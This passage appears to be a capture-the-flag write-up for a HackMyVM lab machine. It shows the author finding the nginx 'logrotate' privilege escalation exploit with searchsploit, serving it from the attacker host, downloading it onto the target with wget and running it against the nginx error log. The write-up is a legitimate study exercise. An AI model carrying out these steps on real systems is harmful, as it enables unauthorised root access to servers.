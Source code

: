 ## Searching for nginx Local Privilage Escalation

```console
┌──(coolatos㉿CooLaToS)-[~/HMV/webmaster]
└─$ searchsploit nginx   
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                          |  Path                                
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nginx (Debian Based Distros + Gentoo) - 'logrotate' Local Privilege Escalation                                                          | linux/local/40768.sh
                                                                                                                                                                                                                                             
┌──(coolatos㉿CooLaToS)-[~/HMV/webmaster]
└─$ searchsploit -m 40768
┌──(coolatos㉿CooLaToS)-[~/HMV/webmaster]
└─$ mv 40768.sh exploit.sh 
```

## Upload the exploit to the machine.
──(coolatos㉿CooLaToS)-[~/HMV/webmaster]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..

john@webmaster:/tmp$ wget 10.1.1.11/exploit.sh
--2022-07-12 07:35:41--  http://10.1.1.11/exploit.sh
Connecting to 10.1.1.11:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7244 (7.1K) [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                                                  100%[========================================================================================================================================>]   7.07K  --.-KB/s    in 0s      

2022-07-12 07:35:41 (869 MB/s) - ‘exploit.sh’ saved [7244/7244]
john@webmaster:/tmp$ chmod +x exploit.sh
```

# Exploit usage:
from script's comments we get ./nginxed-root.sh path_to_nginx_error.log

```console
john@webmaster:/tmp$ find / -name error.log 2>/dev/null
/var/log/nginx/error.log
john@webmaster:/tmp$ ./exploit.sh /var/log/nginx/error.log
 _______________________________
< Is your server (N)jinxed ? ;o >
 -------------------------------
                       \          __---__
                    _-       /--______
               __--( /     \ )XXXXXXXXXXX\v.
             .-XXX(   O   O  )XXXXXXXXXXXXXXX-
            /XXX(       U     )        XXXXXXX          /XXXXX(              )--_  XXXXXXXXXXX         /XXXXX/ (      O     )   XXXXXX   \XXXXX         XXXXX/   /            XXXXXX   \__ \XXXXX
         XXXXXX__/          XXXXXX         \__---->
 ---___  XXX__/          XXXXXX      \__         /
   \-  --__/   ___/\  XXXXXX            /  ___--/=
    \-\    ___/    XXXXXX              '--- XXXXXX
       \-\/XXX\ XXXXXX                      /XXXXX
         \XXXXXXXXX   \                    /XXXXX/
          \XXXXXX      >                 _/XXXXX/
            \XXXXX--__/              __-- XXXX/
```